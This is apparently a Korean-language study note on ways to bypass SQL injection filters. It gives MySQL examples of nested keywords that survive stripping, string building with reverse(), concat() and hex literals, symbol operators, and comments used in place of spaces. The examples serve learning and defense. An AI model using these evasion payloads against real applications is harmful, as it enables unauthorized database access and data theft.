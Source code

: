 - 공백 치환 우회 : 필터링 시 해당 키워드를 공백으로 치환하는 경우 검사를 우회할 수 있다
    - EX) UNION 키워드, SELECT 키워드를 필터링하여 공백으로 치환하는 경우의 공격
    
    ```sql
    UNunionION SELselectECT 1,2 --
    # => UNION SELECT 1,2 --  
    ```
    
- reverse, concat 메소드 사용 : reverse나 concat 메소드를 사용하여 문자열 필터링을 우회할 수 있다.
    - EX) reverse(), concat(), 아스키코드를 통한 우회 방법.
    
    ```sql
    mysql> SELECT reverse('nimda'), concat('adm','in'), x'61646d696e', 0x61646d696e;
    /*
    +------------------+--------------------+---------------+--------------+
    | reverse('nimda') | concat('adm','in') | x'61646d696e' | 0x61646d696e |
    +------------------+--------------------+---------------+--------------+
    | admin            | admin              | admin         | admin        |
    +------------------+--------------------+---------------+--------------+
    1 row in set (0.00 sec)
    */
    ```
    
- 연산자 검사 우회 : 연산자 키워드 필터링을 연산자 기호를 통해 우회할 수 있다.
    - EX)
    
    ```sql
    mysql> select 1 || 1;
    /*
    +--------+
    | 1 || 1 |
    +--------+
    |      1 |
    +--------+
    1 row in set (0.00 sec)
    */
    ```
    
- 공백 탐지 검사 우회 : 공백을 허용하는 경우 공격자가 다른 쿼리를 삽입하는 SQLi가 발생할 수 있어서 공백을 탐지하는 경우가 많다. 하지만 주석, Backtick 등을 이용하여 검사를 우회할 수 있다
    - EX) 주석을 통한 우회
    
    ```sql
    mysql> SELECT/**/'abc';
    /*
    +-----+
    | abc |
    +-----+
    | abc |
    +-----+
    1 row in set (0.00 sec)
    */
    ```
    